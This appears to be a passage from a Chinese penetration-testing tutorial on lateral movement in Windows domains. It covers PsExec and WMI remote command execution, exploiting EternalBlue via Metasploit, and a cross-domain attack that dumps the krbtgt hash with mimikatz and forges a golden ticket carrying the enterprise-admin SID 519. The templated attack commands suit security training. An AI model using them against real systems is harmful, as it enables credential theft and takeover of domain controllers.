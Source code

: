 ![Drawing 25.png](https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEgyAH8HSAABNZ8-054c288.png)  
图 26 IPC 连接

* **PsExec**

[PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) 是 SysInternals 套件中的工具，用于命令行下与目标主机连接和控制，其命令格式如下：

```java
psexec \\{目标IP} -u {用户名} -p {密码} cmd.exe
```

metasploit 就自带有 psexec 模块，用它可直接连接登录主机。  
![Drawing 26.png](https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEiCAFXs4AAJqKBM7rnw147.png)  
图 27 利用 Metasploit psexec 登录主机

* **WMI**

WMI（Windows Management Instrumentation，Windows 管理规范）是由一系列工具组成的，支持本地和远程管理计算机系统，使用命令格式如下：

```java
wmic /node:{目标IP} /user:{用户名} /password:{密码} process call create "{命令}"
```

![Drawing 27.png](https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEimAG3tlAAAfUzrGXD0403.png)  
图 28 使用 WMI 远程执行命令

#### 3.远程漏洞攻击

如果能找到一个其他主机存在的远程漏洞，借助已攻破的主机发起利用，那么也可以达到横向移动的目的。还记得"永恒之蓝"漏洞吗？一款叫作 WannaCry 的勒索病毒袭击全球，其利用的正是"永恒之蓝"（Windows SMB 远程命令执行漏洞），Metasploit 中已集成该漏洞的利用。

你可以多关注下最新的一些远程漏洞，有时直接利用远程漏洞获得域内其他主机的控制权也是一种快捷的方式。

#### 4.跨域攻击

对于父子域这种双向信息的情况，我们可以利用 SID History 进行跨域攻击，使用命令如下。

* 使用 mimikatz 获取子域的 krbtgt Hash，krbtgt 是域内默认创建的账号，域内每个账号的票据都是由它生成的，只要拿到 krbtgt 的密码 Hash，就可以随意伪造票据，进而使用票据登录域控制器。

```java
lsadump::lsa /patch
```

* 使用 powerview 获取父子域的 sid：

```java
Get-DomainComputer -Domain {父域名}
Get-DomainComputer -Domain {子域名}
```

* 利用 mimikatzt 向内存注入票据，添加 SID＝519 企业管理员。

```java
kerberos::golden /user:Administrator /krbtgt:{第一步获取的hash} /domain:{域名} /sid:{子域sid} /sids:{替换父域sid最后一个值为519} /ptt
```
